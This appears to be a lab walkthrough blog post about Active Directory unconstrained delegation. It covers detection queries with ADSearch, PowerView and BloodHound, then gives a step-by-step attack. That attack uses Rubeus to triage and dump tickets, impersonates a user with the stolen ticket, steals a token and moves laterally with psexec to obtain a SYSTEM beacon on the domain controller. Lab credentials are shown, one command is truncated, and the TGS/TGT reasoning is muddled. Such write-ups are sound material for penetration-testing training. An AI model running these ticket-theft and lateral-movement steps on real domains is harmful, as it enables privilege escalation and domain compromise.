

> Author : lineeralgebra
{:.prompt-tip}

In Active Directory, **delegation** is a feature that allows a service to impersonate users and access resources on their behalf. While this is useful for applications that need to query multiple back-end services, misconfigurations can introduce serious security risks.

**Unconstrained Delegation** is the most dangerous type of delegation. When enabled on a computer or service account, that system can **impersonate any user** that authenticates to it—without restrictions. This is possible because whenever a user authenticates to a service configured with Unconstrained Delegation, their **TGT (Ticket Granting Ticket)** is stored in memory on that host. The host can then use the TGT to request service tickets to access other resources as that user.

From an attacker’s perspective, this means:

- If they compromise a machine with Unconstrained Delegation enabled, they can extract cached TGTs of privileged accounts.
- By forcing high-value accounts (like Domain Admins) to authenticate to that machine, attackers can obtain their TGTs and escalate privileges to Domain Admin.

Because of these risks, Unconstrained Delegation is rarely required in modern environments and is considered a **severe misconfiguration**. Best practices recommend using **Constrained Delegation** with Kerberos protocol transition (s4u2self/s4u2proxy) instead.

## UnConstrained Delegation happening why?


and if we wanna check computer of `APP-01` Properties and check for Delegation part


we can see its waiting for request ticket on kerberos!!! 

## UnConstrained Delegation detection

### UnConstrained Delegation detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

First of all lets check for computers

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```


or same for users we just have to change `objectCategory=computer` → `objectCategory=user`

### UnConstrained Delegation detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```

and run

```bash
Get-DomainComputer -Unconstrained
```


or with **WEB Interfaces** off course


### UnConstrained Delegation detection with Bloodhound

go cypher and run this

```bash
MATCH (c:Computer {unconstraineddelegation:true}) return c
```


## UnConstrained Delegation Attack

So we learnt how to verify and detect now i think we can attack!!!

First of all there is not too much attention for this part but yeah there is different approach a lot and i will show mines at least which is worked for me healthier.

### Understand what we are doing and with who?

```bash
findDelegation.py  lab.local/fay.lola:'liverpo
```

Make aim here just take where will to go right? Lets check first  


We just be sure and where we can go with who at this point. We did before but lets jsut verify.

So we need SYSTEM beacon for this computer lets take it.


So we have SYSTEM beacon on `TROY$` right? Now i will run `triage` command from `Rubeus` and its like When we go doctor first we got `triage` right? so we will check if we can do something and where we can go and where we can steal it.

```bash
execute-assembly /home/elliot/tools/Rubeus.exe triage
```


so we just learnt we can steal ticket for `cifs` and `ldap` and can access DC directly.

I will chose `cifs`  here and will run

```bash
execute-assembly /home/elliot/tools/Rubeus.exe dump /luid:0x3e7 /nowrap
```

But we have to understand what we got first!!!!!!!!!!!!!!


We will use them at next comamnd and let me show u how but before that we have to sure;

- **WE GOT TGS NOT TGT CAUSE WE HAVE DELEGATION TO COMPUTER NOT ADMINISTRATOR. SO WE HAVE TO DO TGS→ TGT FIRST**

```bash
execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:VALENOR-DC01 /username:Administratror /password:Pass1234 /ticket:<ticket_here>
```

so that could be our command!!!



we have to steal that token first

```bash
steal_token 1436
```

go target

```bash
cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
```

and JUMP

```bash
jump psexec64 VALENOR-DC01 valenor
```


and we got **SYSTEM** becon at DC.